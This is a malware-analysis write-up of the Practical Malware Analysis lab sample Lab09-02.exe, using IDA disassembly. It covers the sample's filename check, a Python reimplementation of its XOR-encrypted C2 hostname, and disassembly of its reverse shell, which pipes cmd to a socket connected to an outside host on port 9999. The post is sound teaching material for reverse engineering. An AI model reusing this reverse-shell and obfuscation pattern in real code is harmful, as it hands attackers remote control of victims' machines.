 ```yaml
---
layout: post
title: 0x0B_Lab09-02
categories: [series, Practical Malware Analysis]
tags: [malware analysis, reverse engineering, xor, reverse shell]
---
```


## Overview

Filename | Size | MD5
:-------- |:----- |:-----
Lab09-02.exe | 24 KB | 251f4d0caf6eadae453488f9c9c0ea95

**TL;DR:** The malware has to be renamed `ocl.exe`{: .filepath} in order to execute properly. It connects to `www.practicalmalwareanalysis.com:9999` (the C2 address is stored encrypted, but not the port number) and starts a reverse shell.


**Tools:** IDA Free

**IDB:** [Lab09-02.i64](/assets/series/pma/Lab09-02.i64)

---

## Initiating arrays

The function `_main()` starts with the initialization of two buffers on the stack. the first will contain the string "**1qaz2wsx3edc**", and the other an array of 32 bytes of apparently gibberish data:

```
.data:00405034 dw_array        dd  54160646h, 1B120542h,  2070C47h, 16001C5Dh
.data:00405034                 dd  1D011645h, 0F050B52h,  9080248h, 151C141Ch
```

We'll back to this in a moment.

## Name check

After initializing the buffers, the malware checks its name and exits if it is not executed under the expected name. 

First, it gets the full path of the current process (i.e., itself):

```
.text:004011FF  lea     eax, [ebp+Filename]
.text:00401205  push    eax             ; lpFilename
.text:00401206  push    NULL            ; NULL == path of the executable file of the current process
.text:00401208  call    ds:GetModuleFileNameA
```

then, it scans for the path separator (`\`) starting from the right, in order to retrieve the filename:

```
.text:0040120E  push    '\'             ; pattern to search for
.text:00401210  lea     ecx, [ebp+Filename]
.text:00401216  push    ecx             ; char *
.text:00401217  call    _strrchr        ; pointer to the first '\\' from right
.text:0040121C  add     esp, 8
.text:0040121F  mov     [ebp+self_name], eax
```

Finally, the filename is compared with `ocl.exe`{: .filepath}; if there's a mismatch, the malware exits:

```
.text:0040122B  mov     eax, [ebp+self_name]
.text:0040122E  push    eax             ; char *
.text:0040122F  lea     ecx, [ebp+target_name]
.text:00401235  push    ecx             ; char *
.text:00401236  call    _strcmp
.text:0040123B  add     esp, 8
.text:0040123E  test    eax, eax
.text:00401240  jz      short name_is_ocl_exe
.text:00401242  mov     eax, 1
.text:00401247  jmp     exit
```

If the name is correct, the Winsock2 library is initialized and a TCP socket is created (code not shown).

## CnC decryption

Right after the creation of the socket, we notice a call to function `0x401089` (renamed `CRYPTO__DecryptCnC()`) taking 2 parameters. These parameters are pointers to the 2 buffers seen earlier:

```
.text:004012AF  lea     ecx, [ebp+dw_array]
.text:004012B5  push    ecx             ; encrypted
.text:004012B6  lea     edx, [ebp+key]
.text:004012BC  push    edx             ; key
.text:004012BD  call    CRYPTO__DecryptCnC
.text:004012C2  add     esp, 8
.text:004012C5  mov     [ebp+CnC], eax  ; www.practicalmalwareanalysis.com
```

The decrytion is pretty straightforward (xor-encrypted string), below is a reimplementation in Python:

```python
if __name__ == "__main__":

    key = b'1qaz2wsx3edc'

    encrypted = b''
    encrypted += b'\x46\x06\x16\x54\x42\x05\x12\x1B'
    encrypted += b'\x47\x0C\x07\x02\x5D\x1C\x00\x16'
    encrypted += b'\x45\x16\x01\x1D\x52\x0B\x05\x0F'
    encrypted += b'\x48\x02\x08\x09\x1C\x14\x1C\x15'

    decrypted = ""
    for i, b in enumerate(encrypted):
        d = b ^ key[i % len(key)]
        decrypted = "{}{}".format(decrypted, chr(d))

    print(decrypted)
```

The decrypted result is `www.practicalmalwareanalysis.com`. Returning from the decryption function, the malware connects to `www.practicalmalwareanalysis.com:9999` (code not shown).

## Reverse shell

Once the connection is established, function `0x401000` is called (`PS__CreateReverseShell()`). Basically, it creates a new `cmd` process with `stdin`, `stdout` and `stderr` redirected to the socket:

```
.text:00401034  mov     [ebp+StartupInfo.dwFlags], STARTF_USESHOWWINDOW or STARTF_USESTDHANDLES
.text:0040103B  mov     [ebp+StartupInfo.wShowWindow], FALSE
.text:00401041  mov     edx, [ebp+socket] ; socket connected to CnC
.text:00401044  mov     [ebp+StartupInfo.hStdInput], edx  ; stdin -> socket
.text:00401047  mov     eax, [ebp+StartupInfo.hStdInput]
.text:0040104A  mov     [ebp+StartupInfo.hStdError], eax  ; stderr -> socket
.text:0040104D  mov     ecx, [ebp+StartupInfo.hStdError]
.text:00401050  mov     [ebp+StartupInfo.hStdOutput], ecx ; stdout -> socket
.text:00401053  lea     edx, [ebp+ProcessInformation]
.text:00401056  push    edx             ; lpProcessInformation
.text:00401057  lea     eax, [ebp+StartupInfo]
.text:0040105A  push    eax             ; lpStartupInfo
.text:0040105B  push    0               ; lpCurrentDirectory
.text:0040105D  push    0               ; lpEnvironment
.text:0040105F  push    0               ; dwCreationFlags
.text:00401061  push    1               ; bInheritHandles
.text:00401063  push    0               ; lpThreadAttributes
.text:00401065  push    0               ; lpProcessAttributes
.text:00401067  push    offset CommandLine ; "cmd"
.text:0040106C  push    0               ; lpApplicationName
.text:0040106E  call    ds:CreateProcessA
```

---
EOF
